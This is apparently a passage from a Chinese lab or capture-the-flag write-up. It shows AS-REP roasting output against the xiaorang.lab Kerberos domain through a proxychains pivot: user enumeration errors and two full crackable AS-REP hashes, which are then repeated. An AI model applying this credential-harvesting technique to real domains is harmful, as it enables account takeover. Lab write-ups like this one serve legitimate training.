 ```
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:9159559ba318af794bad4ac369b60a1e$2dd93a8a64ff9e932b1707c3e2fbdd379ced93ffb975f5d7dd52b728e0f7dd0c0ea0cc7ffb924897a1a6c1bee062e1b2fb25431f45f4b44ad73a390269d5c5df8b74591b07db87cb22d0de7c5540996343304336da5b11c412b1613b8b2b59c774ce1c6cc99556b0c63484533be7790a058c994b3c9be8fdc780ff9ab5a1e0a0f2c560665dd221335baadb5eca7577290085079fe8cd9da81d7bcaae840133efad3de3698e4e43a617d0d8d9fcb981f9184f2ac639a65640774d409453ab4754d8107d89c12c1a41acf1b23c9bbcc8ec35743b746936a8d34ea3c031b274058826d48ee5ae7f954cb01770ac
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:91e6b6e8eca3c81e9ebc041af6fbe6c9$b1de5c61b73c01359b467a40d0ddf8819234b3f383462eec85dc510eb1c3af9ce6718c33a510a131874bea7e2f2651d7d3de029cdb2c6b6e762bebda4756af475bd4c6c06db8ba3944b1608a5e9e7c2bb312db138301a28abc71b8d6cff4e4dfca8e31746d8b1856fc3e3234526bf2b183b79b6b21da685d3db4466505164f8e8e1a5290cabb7ba03c87406fa6eb4c24328f0e40af722bddffb95dff6fb23f1efeb23d0c491d1462c09e952c2783ca3f9ff8bc3b1b8c065df2e7e179801242b1e1643d639b4c2a56ca7fda7df124689b4af63b6ddc30a07299cac1a8b45fe23a3e0ec5078c16ae75880f9ae8
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] User lihongxia@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] User wangyulan@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] User chenjianhua@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
```

拿到了两个用户的TGT票据

```
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:91e6b6e8eca3c81e9ebc041af6fbe6c9$b1de5c61b73c01359b467a40d0ddf8819234b3f383462eec85dc510eb1c3af9ce6718c33a510a131874bea7e2f2651d7d3de029cdb2c6b6e762bebda4756af475bd4c6c06db8ba3944b1608a5e9e7c2bb312db138301a28abc71b8d6cff4e4dfca8e31746d8b1856fc3e3234526bf2b183b79b6b21da685d3db4466505164f8e8e1a5290cabb7ba03c87406fa6eb4c24328f0e40af722bddffb95dff6fb23f1efeb23d0c491d1462c09e952c2783ca3f9ff8bc3b1b8c065df2e7e179801242b1e1643d639b4c2a56ca7fda7df124689b4af63b6ddc30a07299cac1a8b45fe23a3e0ec5078c16ae75880f9ae8

$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:9159559ba318af794bad4ac369b60a1e$2dd93a8a64ff9e932b1707c3e2fbdd379ced93ffb975f5d7dd52b728e0f7dd0c0ea0cc7ffb924897a1a6c1bee062e1b2fb25431f45f4b44ad73a390269d5c5df8b74591b07db87cb22d0de7c5540996343304336da5b11c412b1613b8b2b59c774ce1c6cc99556b0c63484533be7790a058c994b3c9be8fdc780ff9ab5a1e0a0f2c560665dd221335baadb5eca7577290085079fe8cd9da81d7bcaae840133efad3de3698e4e43a617d0d8d9fcb981f9184f2ac639a65640774d409453ab4754d8107d89c12c1a41acf1b23c9bbcc8ec35743b746936a8d34ea3c031b274058826d48ee5ae7f954cb01770ac
```
